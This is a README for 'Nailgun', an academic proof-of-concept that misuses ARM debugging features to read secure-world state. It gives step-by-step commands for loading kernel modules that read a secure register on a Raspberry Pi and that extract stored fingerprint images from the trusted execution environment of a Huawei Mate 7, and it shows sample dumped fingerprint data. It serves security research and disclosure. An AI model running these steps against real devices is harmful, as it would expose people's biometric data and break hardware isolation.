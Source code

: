 
# Nailgun: Break the privilege isolation in ARM devices

## Overview
Processors nowadays are consistently equipped with debugging features to facilitate the program debugging and analysis. Specifically, the ARM debugging architecture involves a series of CoreSight components and debug registers to aid the system debugging, but the security of the debugging features is under-examined since it normally requires physical access to use these features in the traditional debugging model.

The idea of Nailgun Attack is to misuse the debugging architecture with the inter-processor debugging model. In the inter-processor debugging model, a processor (debug host) is able to pause and debug another processor (debug target) on the same chip even when the debug target owns a higher privilege. With Nailgun, we are able to obtain sensitive information and achieve arbitrary payload execution in a high-privilege mode.

For more details, please check our website https://compass.cs.wayne.edu/nailgun

## Proof of Concept
We will make two PoCs available on Github:

### PoC #1: Reading  Secure Configuration Register with a kernel module.
#### Platform
- Deivce: Raspberry PI 3 Model B+ 
- Firmware: Raspbian GNU/Linux 9.6 (stretch)

#### Description
In this PoC, we we use a kernel module running in non-secure EL1 to read Secure Configuration Register (SCR), which is only accessiable in secure state, on Raspberry PI. The fold ```PoC/Read_SCR``` contains the source code and prebuild binaries for two kernel modules. The first kernel module _directly_read.ko_ read the SCR directly, which lead to segmentation fault. The kernel module _nailgun.ko_ leverages Nailgun attack to read the SCR

#### Prepare
If you are going to build the kernel module from the source code, you need to install the compile tools and kernel headers with the following command,
```
pi@raspberrypi:~/ $ sudo apt-get install build-essential raspberrypi-kernel-headers
```
Then, get into the source code fold, and compile the kernel module
```
pi@raspberrypi:~/ $ cd PoC/Read_SCR
pi@raspberrypi:~/PoC/Read_SCR $ make
```

#### Run
Use _insmod_ command to install the corresponding kernel module, and use _dmesg_ to check the kernel logs.
```
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod directly_read.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod nailgun.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
```
The value of the SCR can be found in the kernel log.

#### Demo Video
https://youtu.be/dlKK_69HJnk
  
### PoC #2:  Extracting the fingerprint image.
#### Platform
- Deivce: Huawei Mate 7 (MT-L09)
- Firmware: MT7-L09V100R001C00B121SP05

#### Description
In this PoC, we use a kernel module running in non-secure EL1 to extract the fingerprint image
stored in TEE on Huawei Mate 7. The fold ```PoC/Fingerprint_Extraction``` contains the source code for the kernel module that extracts fingerprint data from TEE, a prebuild binary of the kernel module, and a python script to convert the extracted image data to a PNG file.

#### Prepare
- Make sure you have scanned a fingerprint with the fingerprint sensor.
- Enable USB debugging on your phone and connect it to your PC. (**Nailgun attack doesn't require physical access to the phone, the connection is only used for transferring the binary to the phone and moving the output log to the PC.**)
- Make sure you have root access on your phone.

#### Run
Firstly, push the prebuild binary into the phone
```
adb push nailgun.ko /sdcard/
```
Next, in the _adb shell_ console of the phone, install the kernel module
```
adb shell
shell@hwmt7:/ $ su
root@hwmt7:/ # insmod /sdcard/nailgun.ko
```
Check the kernel log with _dmesg_ command
```
root@hwmt7:/ # dmesg
```
If you can find the fingerprint data similar to this
```
<6>[   51.284149] [0.1, swapper/1] --------------------
<6>[   51.284210] [0.1, swapper/1] 2ef5efac: 412f0100 87796552 e8e2dfd4 eff0eeea
<6>[   51.284240] [0.1, swapper/1] 2ef5efbc: f3f3f3f3 f3f1f8f6 f3f3f2f1 eff4f4f8
<6>[   51.284301] [0.1, swapper/1] 2ef5efcc: f1f0f2f0 f1f0eff3 f1f1efee efeff0ee
<6>[   51.284332] [0.1, swapper/1] 2ef5efdc: e7ecefeb e8e9e8ed e6e4e3e6 e1e5e5e6
<6>[   51.284393] [0.1, swapper/1] 2ef5efec: e9e5e6e4 dfe3e3e6 e4e5e5e2 e0e3e3e3
<6>[   51.284423] [0.1, swapper/1] 2ef5effc: dee1e3e2 e8e6e1df eae8e6e7 eaeceeeb
<6>[   51.284484] [0.1, swapper/1] 2ef5f00c: e5e3e5e5 edebe6e7 edefeff1 f1eeeff0
<6>[   51.284515] [0.1, swapper/1] 2ef5f01c: e7eaebea e9e9e8e5 e6e7eaeb e4e5e4e2
<6>[   51.284576] [0.1, swapper/1] 2ef5f02c: e7e9e8e8 e5e6e7e6 e7eae7ea e2e4e4e5
```
then the PoC works.
Next, dump the kernel log to file, and extract the file from the phone to your PC
```
root@hwmt7:/ # dmesg > /sdcard/nailgun.log
root@hwmt7:/ # exit
shell@hwmt7:/ $ exit
adb pull /sdcard/nailgun.log .
```
Finally, use the python script to convert the fingerprint data to a PNG file
```
python log2image.py nailgun.log
```
You will find the extracted fingerprint images is stored into PNG files naming _fingerprint\_x.png_, in which _x_ means the index of the image.

#### Demo Video
https://youtu.be/5ioyneewFYQ

## Publication
```
@InProceedings{nailgun19,
	Title = {Understanding the security of ARM debugging features},
	Author = {Zhenyu Ning and Fengwei Zhang},
	Booktitle = {Proceedings of the 40th IEEE Symposium on Security and Privacy (S&P'19)},
	Year = {2019}
}
```

## Contact
- Zhenyu Ning
- zhenyu.ning _at_ wayne.edu
- Compass Lab, Wayne State University (https://compass.cs.wayne.edu)
